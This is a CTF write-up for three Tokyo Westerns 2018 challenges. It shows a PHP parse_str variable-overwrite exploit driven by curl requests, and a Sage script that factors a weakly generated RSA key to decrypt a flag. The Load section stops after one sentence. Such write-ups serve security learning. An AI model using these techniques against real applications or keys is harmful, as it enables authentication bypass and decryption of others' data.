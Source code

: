 ```yaml
---
layout: post
title: SimpleAuth, Load, Revolutional Secure Angou
category: Tokyo-Westerns-2018
---
```

# Description
Tokyo Westerns did a great job with their 4th annual CTF; all the challeneges were unqiue and challenging. Below are writeups for challenges I solved with my team during the CTF.

# SimpleAuth (Web)
For this challenge, we start out only given the following URI `http://simpleauth.chal.ctf.westerns.tokyo`.

Navigating to this page, we are presented with the following PHP source code:
```
<?php

require_once 'flag.php';

if (!empty($_SERVER['QUERY_STRING'])) {
   $query = $_SERVER['QUERY_STRING'];
   $res = parse_str($query);
   if (!empty($res['action'])){
       $action = $res['action'];
   }
}

if ($action === 'auth') {
   if (!empty($res['user'])) {
       $user = $res['user'];
   }
   if (!empty($res['pass'])) {
       $pass = $res['pass'];
   }

   if (!empty($user) && !empty($pass)) {
       $hashed_password = hash('md5', $user.$pass);
   }
   if (!empty($hashed_password) && $hashed_password === 'c019f6e5cd8aa0bbbcc6e994a54c757e') {
       echo $flag;
   }
   else {
       echo 'fail :(';
   }
}
else {
   highlight_file(__FILE__);
}
```
Reading through the code, we notice a few things. First, there's a file, `flag.php`, that appears to be credential locked. Second, the credentials can only be passed via query string parameters. Finally, the MD5 hash of our concatenated username/password must match the hardcoded one.

Since we're still new with PHP, we begin by verifying that we can hit the `echo 'fail :(';` line.
```
curl http://simpleauth.chal.ctf.westerns.tokyo\?action\=auth

fail :(
```

Great! Now to read the flag, we must provide a username and password such that the MD5 hash of their concatenation will yield `c019f6e5cd8aa0bbbcc6e994a54c757e`.

Initially, I thought that all I had to do was crack this hash, but that didn't seem quite right for a web challenge. I looked back at the code. Reading more documentation pages revealed that `$res = parse_str($query);` seemed vulnerable to arbitrary variable overwrite. Hosting my own page to test this locally revealed that we were correct!

```
<?php
$var = 'test';
parse_str($_SERVER['QUERY_STRING']);
echo $var;
?>
```

```
curl http://127.0.0.1/test.php

test
```

```
curl http://172.0.0.1/test.php?var=XXX

XXX
```

With a working PoC, we get the flag with the following:

```
curl http://simpleauth.chal.ctf.westerns.tokyo\?action\=auth\&hashed_password\=c019f6e5cd8aa0bbbcc6e994a54c757e

TWCTF{d0_n0t_use_parse_str_without_result_param}
```

# Load (Pwn)
```
host : pwn1.chal.ctf.westerns.tokyo
port : 34835
```
For this challenge, we're given a binary and host/port to connect to. Running the binary reveals that it is a load file service. Attempting to load our local `/etc/hosts` provides us with a surprising segmentation fault!



# Revolutional Secure Angou (Crypto)
For this challenge, we're given a zip file containing an RSA public key, the encrypted flag, and the `generator.rb` script used to generate the public key and encrypted flag.

```
require 'openssl'

e = 65537
while true
  p = OpenSSL::BN.generate_prime(1024, false)
  q = OpenSSL::BN.new(e).mod_inverse(p)
  next unless q.prime #continue generating p,q until q.prime evaluates to TRUE
  key = OpenSSL::PKey::RSA.new
  key.set_key(p.to_i * q.to_i, e, nil)
  File.write('publickey.pem', key.to_pem)
  File.binwrite('flag.encrypted', key.public_encrypt(File.binread('flag')))
  break
end
```

Let's first recall how RSA keys are generated:
- Two distinct primes, p and q, are chosen at random
- The modulus n, where n=pq, is then calculated
- An integer e, or _public exponent_, is chosen such that 1 < e < \lamba(n) and gcd(e,\lambda(n)) = 1, where \lambda is Carmichael's totient function
- The _private exponent_, d, is determined such that d ≡ e^-1 mod \lamba(n)

Once this is done, `e` and `n` are published as the public key while `d`, `p`, and `q` are kept secret.

Encrypting a message, m, with a public key (n,e) is simply done by computing c ≡ m(e) mod n. Thus, anyone who knows d can decrypt the message by computing `m ≡ c(d) mod n`.

However if d is not known, the only way of decrypting the message is to factor n into p and q and then use them to compute d. Since this is extremely hard if p and q are very large, we can consider the cryptosystem secure.

Back to the challenge - we immediately notice from the above code that only p is chosen at random; q is computed as the inverse mod of p, such that q ≡ e^(-1) mod p. Thus, q is completely determined from the value of p. We notice that the generator will continue to produce p,q pairs until both p and q are prime.

We will exploit the fact that q is nonrandom to produce the private exponent, d. We know that:
```
q ≡ e^(-1) mod p <=> qe ≡ 1 mod p
                 <=> qe = kp+1, for some integer k
                 <=> pqe = p(kp+1)
```
Thus we are left to solve the quadratic `kp^2 + p - n(e) = 0`, where `n=pq` is part of the public key we are given. Once we solve for p, we can calculate d:
```
d ≡ e^(-1) mod (p-1)(q-1)
```

Finally, we must brute force the value of `k`. We know that `k = qe-1/p`, where `qe` and `p` are odd. Since `k` in an integer and an even integer divided by an odd integer is even, we know that `k` must be even. Thus, we set `k=2` and brute force even values until we find one such that `p|q` and `p` are non trivial factors. Our solution below is written using Sage with Python libraries.

```
#!/usr/bin/env sage-python
from Crypto.PublicKey import RSA
from Crypto.Util.number import bytes_to_long, long_to_bytes

with open ('publickey.pem', 'r') as f:
    pubkey = RSA.importKey(f.read())

with open('flag.encrypted', 'r') as f:
    ciphertext = bytes_to_long(f.read())

var('p')
r = None
n = pubkey.n
e = pubkey.e
k = 2

while not r:
    eq = n * e - p * (k * p + 1)
    r = eq.roots(p, ring=ZZ)
    k += 2

# with p, we compute q and d
p = r[0][0]
q = n / p
d = inverse_mod(e, (p-1) * (q-1))

# Decrypt the flag
plaintext = power_mod(ciphertext, d, n)

# Discard junk at the beginning of the plaintext
print long_to_bytes(plaintext)[-48:]
```

    TWCTF{9c10a83c122a9adfe6586f498655016d3267f195}
